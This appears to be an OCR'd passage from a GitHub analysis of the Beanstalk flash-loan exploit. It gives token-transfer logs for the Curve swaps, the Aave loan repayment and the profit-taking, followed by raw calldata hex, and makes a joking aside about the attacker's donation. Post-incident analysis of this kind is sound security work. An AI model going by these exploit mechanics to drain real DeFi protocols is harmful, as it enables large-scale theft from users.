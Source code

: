 ```json
[transfer] amount=16471404.984641022902557141 [LUSD], from=[Beanstalk Flashloan Exploiter Contract], to=[Curve.fi Factory USD Metapool: LUSD3CRV-f], operator=[Curve.fi Factory USD Metapool: LUSD3CRV-f]
[transfer] amount=16184690.4423706616519972 [3Crv], from=[Curve.fi Factory USD Metapool: LUSD3CRV-f], to=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi Factory USD Metapool: LUSD3CRV-f]
[burn] amount=511959710.180617886302214702 [3Crv], from=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
[transfer] amount=522487380.233548 [USDC], from=[Curve.fi: DAI/USDC/USDT Pool], to=[Beanstalk Flashloan Exploiter Contract], operator=[Centre: USD Coin]
[burn] amount=358371797.126432520411550291 [3Crv], from=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
[transfer] amount=365758059.846650868575584745 [DAI], from=[Curve.fi: DAI/USDC/USDT Pool], to=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
[burn] amount=153587913.054185365890664411 [3Crv], from=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
```

### ****Repay - FlashLoan****

1. Flashloan back 150,135,000 USDT, 500,450,000 USDC, 350,315,000 DAI

```json
[transfer] amount=156732232.49236 [USDT], from=[Curve.fi: DAI/USDC/USDT Pool], to=[Beanstalk Flashloan Exploiter Contract], operator=[Curve.fi: DAI/USDC/USDT Pool]
[mint] amount=192.544598265969491594 [aDAI], to=[Aave], operator=[Aave: aDAI Token V2]
[transfer] amount=350315000.0 [DAI], from=[Beanstalk Flashloan Exploiter Contract], to=[Aave: aDAI Token V2], operator=[Aave: Lending Pool V2]
[mint] amount=30.364909 [aUSDC], to=[Aave], operator=[Aave: aUSDC Token V2]
[transfer] amount=500450000.0 [USDC], from=[Beanstalk Flashloan Exploiter Contract], to=[Aave: aUSDC Token V2], operator=[Centre: USD Coin]
[mint] amount=89.259866 [aUSDT], to=[Aave], operator=[Aave: aUSDT Token V2]
[transfer] amount=150135000.0 [USDT], from=[Beanstalk Flashloan Exploiter Contract], to=[Aave: aUSDT Token V2], operator=[Aave: Lending Pool V2]
[transfer] amount=0.540716100968756904 [UNI-V2], from=[Beanstalk Flashloan Exploiter Contract], to=[Uniswap V2: BEAN 3], operator=[Beanstalk Flashloan Exploiter Contract]
```

### ****Take Profits****

1.Burn UNI-V2_WETH_BEAN 0.54 to get 10,883 WETH and 32,511,085 BEAN

```json
[burn] amount=0.540716100968756904 [UNI-V2], from=[Uniswap V2: BEAN 3], operator=[Beanstalk Flashloan Exploiter Contract]
[transfer] amount=10883.105341079068109889 [WETH], from=[Uniswap V2: BEAN 3], to=[Beanstalk Flashloan Exploiter Contract], operator=[Uniswap V2: BEAN 3]
[transfer] amount=32511085.804104 [BEAN], from=[Uniswap V2: BEAN 3], to=[Beanstalk Flashloan Exploiter Contract], operator=[Uniswap V2: BEAN 3]
```

2.Donate 250,000 USDC to Ukraine Crypto Donation

👍 搶劫不忘做公益


[0]:  0000000000000000000000000000000000000000000000000000000000000080
[1]:  000000000000000000000000e5ecf73603d98a0128f05ed30506ac7a663dbb69
[2]:  00000000000000000000000000000000000000000000000000000000000000a0
[3]:  0000000000000000000000000000000000000000000000000000000000000003
[4]:  0000000000000000000000000000000000000000000000000000000000000000
[5]:  0000000000000000000000000000000000000000000000000000000000000004
[6]:  e1c7392a00000000000000000000000000000000000000000000000000000000
[0]:  0000000000000000000000000000000000000000000000000000000000000080
[1]:  000000000000000000000000259a2795624b8a17bc7eb312a94504ad0f615d1e
[2]:  00000000000000000000000000000000000000000000000000000000000000a0
[3]:  0000000000000000000000000000000000000000000000000000000000000003
[4]:  0000000000000000000000000000000000000000000000000000000000000000
[5]:  0000000000000000000000000000000000000000000000000000000000000004
[6]:  e1c7392a00000000000000000000000000000000000000000000000000000000